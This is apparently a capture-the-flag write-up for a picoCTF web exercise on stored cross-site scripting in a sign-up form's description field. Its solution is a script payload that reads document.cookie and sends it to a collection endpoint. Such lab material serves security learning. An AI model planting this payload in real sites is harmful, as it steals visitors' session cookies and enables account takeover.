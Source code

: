 # Cross-Site Scripting

## Target
https://primer.picoctf.org/vuln/web/sign_up.php

## Environment
Table with categories: name, description

## Solution
Put this in description

``` javascript
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "https://primer.picoctf.org/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'Hacker'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>
```

That service receives two variables: "cookie" and "hackername". The value of the variable cookie will be "document.cookie". Using document.cookie you access the cookies from JavaScript, so that should contain the cookie you want to steal. The variable hackername simply has a name assigned. 
